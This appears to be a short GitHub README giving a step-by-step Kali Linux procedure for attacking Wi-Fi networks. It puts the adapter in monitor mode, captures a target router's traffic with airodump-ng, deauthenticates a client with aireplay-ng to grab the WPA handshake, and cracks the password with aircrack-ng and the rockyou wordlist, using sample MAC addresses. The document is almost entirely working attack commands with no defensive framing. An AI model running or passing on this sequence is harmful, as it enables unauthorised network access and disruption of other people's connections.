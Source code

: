 # Wireless-Network-Attacks
Wireless Network Attacks with Kali Linux
kill airmon-ng 

airmon-ng check kill 

iwconfig 


is importent to down the interface 

ifconfig wlan0 down 

active monitor mode 

iwconfig wlan0 mode monitor 

up the interface 

ifconfig wlan0 up

strat  attcak 


airmon-ng start wlan0 
airodump-ng wlan0 
ifconfig


attack router monitor router

airodump-ng --bssid <router mac > --channel <router channel> --write <file name > wlan0


example 

airodump-ng --bssid 28:87:BA:5A:EB:93 --channel 4 --write moonx wlan0  

deauth password 

deauth for handsake capchare 

aireplay-ng --deauth <deauth number > -a <router mac> -c <davice mac> wlan0


aireplay-ng --deauth 10 -a E8:65:D4:FE:84:F8 -c BE:B1:0B:BC:06:B8 wlan0

crack password 

 aircrack-ng moonx-01.cap -w /usr/share/wordlists/rockyou.txt   
